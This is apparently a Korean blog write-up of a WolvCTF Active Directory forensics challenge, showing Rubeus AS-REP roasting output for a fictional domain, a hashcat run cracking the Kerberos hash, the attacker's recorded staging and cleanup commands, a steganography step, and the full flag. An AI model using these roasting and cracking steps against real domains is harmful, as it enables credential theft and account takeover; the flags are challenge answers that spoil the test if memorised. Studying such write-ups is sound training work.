


<br><br>

공격자는 도메인 전체에서 수평 이동을 시도했다.<br>
wolvctf.corp의 다른 구성원들로부터, 두 개의 고위 권한 계정을 제외하고도 3개의 하위 권한 계정이 추가로 탈취되었다는 보고가 들어왔다.<br><br.>

이제 해야 할 일은 다음과 같다.<br><br>

탈취된 하위 권한 계정 3개를 식별하기.<br>
공격자가 어떻게 이동했는지 추적하면서 그들의 경로를 따라가기.<br>
그 경로를 따라가면 플래그를 찾을 수 있을 것이다.<br><br>

```
   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v2.2.0


[*] Action: AS-REP roasting

[*] Target User            : emily
[*] Target Domain          : wolvctf.corp
[*] Target DC              : DC01.wolvctf.corp

[*] Using domain controller: DC01.wolvctf.corp (fe80::af8f:bc46:1257:36be%5)
[*] Building AS-REQ (w/o preauth) for: 'wolvctf.corp\emily'
[+] AS-REQ w/o preauth successful!
[*] AS-REP hash:

      $krb5asrep$emily@wolvctf.corp:34C3460101DA5A3081FA4F6518A0ECE1$619944A029EF908C7
      8A80E2559C06788E2D86AEB1C94CD97E4540E5EA57C550C7FBD768D6EA24DBC66CFC6B8A9E39C364
      39CA4B50DCF29F3C078785F876835B239B3628F561D080F83294C9A3BC8D1C4DEC538A15339257DC
      AAB20F33EE168BDEA0671C4AB92DA6B089D7700E7BE42564706BFA903654EDF11376C1994BBE6B9C
      C65E53275EF3148B638AA5A52284E29912C3CA2171FD50FBD6929511416B51F8C4F8CB9383DA74E8
      DB3B0493A2654093C44BC399695525DD90E271A90C9992024A1D05E4188EC588663D2D849142AED6
      5C5B77C38ED3DC7BB65178A565248F199B5DC2D382D2DA016DAD023

[*_*] d2N0Znthc3IzcHIwNHN0M2Q/Xw== // "wctf{asr3pr04st3d?_"
```

<br><br>

```
.\hashcat.exe -m 18200 -a 0 .\asreproast.txt .\rockyou.txt
hashcat (v6.2.6) starting

* Device #1: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
* Device #2: WARNING! Kernel exec timeout is not disabled.
             This may cause "CL_OUT_OF_RESOURCES" or related errors.
             To disable the timeout, see: https://hashcat.net/q/timeoutpatch
CUDA API (CUDA 12.7)
====================
* Device #1: NVIDIA GeForce RTX 3080, 9073/10239 MB, 68MCU

OpenCL API (OpenCL 3.0 CUDA 12.7.33) - Platform #1 [NVIDIA Corporation]
=======================================================================
* Device #2: NVIDIA GeForce RTX 3080, skipped

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Optimizers applied:
* Zero-Byte
* Not-Iterated
* Single-Hash
* Single-Salt

ATTENTION! Pure (unoptimized) backend kernels selected.
Pure kernels can crack longer passwords, but drastically reduce performance.
If you want to switch to optimized kernels, append -O to your commandline.
See the above message to find out about the exact limits.

Watchdog: Temperature abort trigger set to 90c

Host memory required for this attack: 597 MB

Dictionary cache built:
* Filename..: .\rockyou.txt
* Passwords.: 14344391
* Bytes.....: 139921497
* Keyspace..: 14344384
* Runtime...: 1 sec

$krb5asrep$emily@wolvctf.corp:34c3460101da5a3081fa4f6518a0ece1$619944a029ef908c78a80e2559c06788e2d86aeb1c94cd97e4540e5ea57c550c7fbd7
768d6ea24dbc66cfc6b8a9e39c36439ca4b50dcf29f3c078785f876835b239b3628f561d080f83294c9a3bc8d1c4dec538a15339257dcaab20f33ee168bdea0671c4a
ab92da6b089d7700e7be42564706bfa903654edf11376c1994bbe6b9cc65e53275ef3148b638aa5a52284e29912c3ca2171fd50fbd6929511416b51f8c4f8cb9383da
a74e8db3b0493a2654093c44bc399695525dd90e271a90c9992024a1d05e4188ec588663d2d849142aed65c5b77c38ed3dc7bb65178a565248f199b5dc2d382d2da01
16dad023:youdontknowmypasswordhaha

Session..........: hashcat
Status...........: Cracked
Hash.Mode........: 18200 (Kerberos 5, etype 23, AS-REP)
Hash.Target......: $krb5asrep$emily@wolvctf.corp:34c3460101da5a3081fa4...dad023
Time.Started.....: Sat Mar 22 16:41:24 2025 (0 secs)
Time.Estimated...: Sat Mar 22 16:41:24 2025 (0 secs)
Kernel.Feature...: Pure Kernel
Guess.Base.......: File (.\rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........: 29516.5 kH/s (6.55ms) @ Accel:1024 Loops:1 Thr:32 Vec:1
Recovered........: 1/1 (100.00%) Digests (total), 1/1 (100.00%) Digests (new)
Progress.........: 4456448/14344384 (31.07%)
Rejected.........: 0/4456448 (0.00%)
Restore.Point....: 2228224/14344384 (15.53%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidate.Engine.: Device Generator
Candidates.#1....: 610024 -> qu913466
Hardware.Mon.#1..: Temp: 52c Fan:  0% Util:  4% Core:1905MHz Mem:9251MHz Bus:16

Started: Sat Mar 22 16:41:23 2025
Stopped: Sat Mar 22 16:41:26 2025
```

<br><br>

```
cd C:\Users\emily
tree /f /a > tree.txt
type tree.txt
cd Documents
dir
type README
echo "James asked me to keep his password secret, so I made sure to take extra precautions." >> C:\Users\Public\loot.txt
echo "Note to self: Password for the zip is same as mine, with 777 at the end" >> C:\Users\Public\loot.txt
del README
cp .\important.7z C:\Users\Public
del C:\Users\Public\loot.txt
del C:\Users\Public\important.7z
runas /User:wolvctf\james cmd
```

<br><br>

즉, important.7z 의 패스워드는 emily 의 계정 암호인 youdontknowmypasswordhaha 에 777 을 붙인 youdontknowmypasswordhaha777이다.<br><br>

wctf{asr3pr04st3d?\_ ? d0nt_us3_4ll3xtendedr1ghts}<br><br>

플래그의 2번째 파트를 아직 못 찾았다.<br><br>

<br>
오잉? 스테가노그래피가 섞여있었다니...<br><br>

https://github.com/bannsec/stegoVeritas<br>
이 친구를 통해서 car.jpeg를 분석하였다.<br>
trailing_data.bin이라고 나오는데 그게 이미지 파일이고 이미지를 보면 고양이가 나온다.<br><br>

최종 플래그는 다음과 같다.<br>
wctf{asr3pr04st3d?\_sh0uldv3_3nabl3d_s0m3_k3rb3r0s_pr34uth_4nd_d0nt_us3_4ll3xtendedr1ghts}
